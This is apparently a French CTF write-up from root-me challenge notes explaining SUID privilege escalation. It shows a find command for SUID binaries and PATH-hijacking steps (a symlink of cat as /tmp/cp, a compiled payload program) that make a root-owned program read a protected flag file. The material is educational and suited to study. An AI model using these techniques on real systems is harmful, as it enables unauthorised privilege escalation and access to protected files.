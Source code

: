 # Challenges root-me
## Overview

# SUID Shell script, programmes SUID

L'une des premières choses qu'on peut chercher à savoir durant un audit, c'est si un programme peut-etre exécuté par n'importe quel utilisateur avec les permissions d'un autre.

Des scripts, comme linpeas.sh font ce travail pour nous. Cependant, dans le cadre de challenges, de ctf etc. il peut-^etre intéressant de savoir comment cela fonctionne.

Pour trouver des programmes avec un SUID (Set User ID), il suffit de faire une recherche avec find :

```sh
    find / -perm -u=s -type f
```

En général, de très simple challenges proposent un programme avec un SUID, et le code source. Par exemple, un programme peut faire un truc bidon sur un fichier (au hasard le flag qu'on doit choper), et charge à nous d'utiliser cette faiblesse organisée afin de la tourner à notre avantage.

[Un lien](https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/) explique le fonctionnement de base de cet tye de vulnérabilité.

Admettons qu'un programme avec SETUID fasse quelque chose sur un fichier. Il utilise par exemple
```C
system(cp /home/michel/flag.txt /root/supersecret);
```
Ce programme - appelons-le supercopy -, a comme permissions (ici c'est une permission root, au lieu de lire le fichier on pourrait avoir un shell root) :

```sh
-rwsr-xr-x root root ...
```

On peut faire en sorte qu'au lieu que ce soit cp qui soit invoqué, ce soit un autre programme.

Plusieurs moyens existent :

 - Faire un lien symbolique de cat avec le nom de cp
 ```sh
    ln -s /bin/cat /tmp/cp
    export PATH=/tmp:$PATH
    ./supercopy
    $ : flag...
 ```
 Ici, on exploite le fait que le chemin absolu vers cp n'est pas noté, et que seul le chemin relatif est donc utilisé. C'est une technique toute b^ete, que nous allons utiliser tout le temps dans le cadre de ces petit exemple.
 - On peut écrire nous m^eme un programme (dans tmp par ex, car tout le monde peut écrire dans ce dossier en général) pour invoquer cat :
   ```C
    int main(void)
    {
        system("/bin/cat /home/michel/flag.txt");
        return 0;
    }
    ```

    ```sh
        gcc payload.c -o cp
        export PATH=/tmp
        ./supercopy
        $ : flag...
    ```
